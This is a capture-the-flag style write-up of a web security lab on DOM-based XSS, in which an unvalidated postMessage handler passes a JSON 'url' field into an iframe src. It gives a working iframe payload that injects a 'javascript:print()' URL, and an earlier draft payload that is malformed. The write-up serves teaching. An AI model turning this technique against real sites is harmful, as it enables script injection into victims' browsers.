




# Lab: DOM XSS using Web Messages and JSON.parse


## Objective
This lab demonstrates a DOM-based XSS vulnerability that uses web messaging and parses the message as JSON. To solve the lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the `print()` function.

---

## Analysis

### Initial Observation

- **Inspecting the Source Code:**
  
  - The JavaScript code responsible for the vulnerability:
    ```javascript
    <script>
        window.addEventListener('message', function(e) {
            var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
            document.body.appendChild(iframe);
            try {
                d = JSON.parse(e.data);
            } catch(e) {
                return;
            }
            switch(d.type) {
                case "page-load":
                    ACMEplayer.element.scrollIntoView();
                    break;
                case "load-channel":
                    ACMEplayer.element.src = d.url;
                    break;
                case "player-height-changed":
                    ACMEplayer.element.style.width = d.width + "px";
                    ACMEplayer.element.style.height = d.height + "px";
                    break;
            }
        }, false);
    </script>
    ```

### Code Analysis

1. **Blind Trust in `postMessage`:**
   - The `postMessage` method accepts messages from any source without validating the origin.
   - This allows an attacker to send malicious data to the application.

2. **Parsing `e.data` with `JSON.parse`:**
   - The `e.data` is parsed as JSON, meaning the attacker can craft a JSON payload.

3. **Vulnerable Case - `load-channel`:**
   - The `d.url` value is directly assigned to the `src` attribute of the `iframe` without validation.
   - This allows an attacker to inject a `javascript:` URL to execute arbitrary code.

---

## Exploitation

### Crafting the Payload

1. **Initial Payload:**
    ```javascript
    <iframe src="https://homepage.com" onload='this.contentWindow.postMessage("type":"load-channel",'*')'>
    ```
    - The `type=load-channel` matches the vulnerable case in the source code.

2. **Escaping Characters:**
    - To create a valid JSON payload, escape special characters using `\`.

3. **Final Payload:**
    ```html
    <iframe src="https://0a1100160422108f8297609f00c40066.web-security-academy.net/" 
            onload='this.contentWindow.postMessage("{\"type\": \"load-channel\", \"url\": \"javascript:print()\"}", "*")'>
    </iframe>
    ```

### Execution

- **Steps:**
  1. Host the crafted payload on the exploit server.
  2. Trigger the payload to send the malicious message to the target application.

- **Result:**
  - The `javascript:print()` payload is executed, solving the lab.

### Supporting Images

- **Executing Payload:**
  

- **Working Payload:**
  

- **Lab Solved:**
  

---

## Conclusion
By exploiting the insecure handling of `postMessage` and the lack of validation in the `load-channel` case, we successfully triggered the DOM-based XSS vulnerability. This highlights the importance of validating and sanitizing user inputs, especially when using web messaging and JSON parsing.

## Note 
Always take care on while escaping the json character this is crucial in this lab and always decode the code from the source code and do your own research.